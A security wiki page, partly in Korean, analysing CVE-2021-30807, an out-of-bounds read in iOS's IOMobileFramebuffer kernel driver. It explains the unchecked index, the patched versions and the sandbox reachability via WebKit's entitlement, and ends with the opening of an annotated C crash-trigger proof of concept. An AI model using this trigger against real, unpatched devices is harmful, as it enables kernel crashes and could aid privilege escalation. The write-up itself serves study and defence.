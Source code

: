 # CVE-2021-30807: IOMobileFrameBuffer OOB

{{#include ../../banners/hacktricks-training.md}}


## 취약점

You have a [great explanation of the vuln here](https://saaramar.github.io/IOMobileFrameBuffer_LPE_POC/), but as summary:

- 취약한 코드 경로는 **IOMobileFramebuffer / AppleCLCD** user client의 **external method #83**: `IOMobileFramebufferUserClient::s_displayed_fb_surface(...)` 입니다. 이 메서드는 사용자에 의해 제어되는 파라미터를 받는데 전혀 검증하지 않으며 다음 함수로 **`scalar0`**로 전달됩니다.

- 해당 메서드는 **`IOMobileFramebufferLegacy::get_displayed_surface(this, task*, out_id, scalar0)`**로 전달되며, 여기서 **`scalar0`**(사용자가 제어하는 **32-bit** 값)는 내부 **포인터 배열**에 대한 **인덱스**로 사용되지만 **경계 검사**가 전혀 없습니다:

> `ptr = *(this + 0xA58 + scalar0 * 8);` → `IOSurfaceRoot::copyPortNameForSurfaceInTask(...)`로 전달되어 **`IOSurface*`**로 사용됩니다.\
> **Result:** 배열에서 **OOB pointer read & type confusion**가 발생합니다. 포인터가 유효하지 않으면 커널 deref가 panic하여 → **DoS**.

> [!NOTE]
> This was fixed in **iOS/iPadOS 14.7.1**, **macOS Big Sur 11.5.1**, **watchOS 7.6.1**


> [!WARNING]
> The initial function to call `IOMobileFramebufferUserClient::s_displayed_fb_surface(...)` is protected by the entitlement **`com.apple.private.allow-explicit-graphics-priority`**. However, **WebKit.WebContent** has this entitlement, so it can be used to trigger the vuln from a sandboxed process.

## DoS PoC

The following is the initial DoS PoC from the ooriginal blog post with extra comments:
```c
// PoC for CVE-2021-30807 trigger (annotated)
// NOTE: This demonstrates the crash trigger; it is NOT an LPE.
// Build/run only on devices you own and that are vulnerable.
// Patched in iOS/iPadOS 14.7.1, macOS 11.5.1, watchOS 7.6.1.  (Apple advisory)
// https://support.apple.com/en-us/103144
// https://nvd.nist.gov/vuln/detail/CVE-2021-30807

void trigger_clcd_vuln(void) {
kern_return_t ret;
io_connect_t shared_user_client_conn = MACH_PORT_NULL;

// The "type" argument is the type (selector) of user client to open.
// For IOMobileFramebuffer, 2 typically maps to a user client that exposes the
// external methods we need (incl. selector 83). If this doesn't work on your
// build, try different types or query IORegistry to enumerate.
int type = 2;

// 1) Locate the IOMobileFramebuffer service in the IORegistry.
//    This returns the first matched service object (a kernel object handle).
io_service_t service = IOServiceGetMatchingService(
kIOMasterPortDefault,
IOServiceMatching("IOMobileFramebuffer"));

if (service == MACH_PORT_NULL) {
printf("failed to open service\n");
return;
}

printf("service: 0x%x\n", service);

```